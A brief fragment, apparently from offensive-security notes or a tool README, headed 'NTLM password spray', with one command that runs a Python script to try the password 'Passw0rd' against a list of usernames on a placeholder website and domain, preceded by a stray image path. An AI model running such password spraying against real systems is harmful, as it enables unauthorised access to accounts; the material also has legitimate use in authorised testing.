 ## NTLM PASSWORD SPRAY
python3 ntlmpassword_spray.py --usernames usernames.txt --password Passw0rd --url "http://website.com/" --domain domain.com
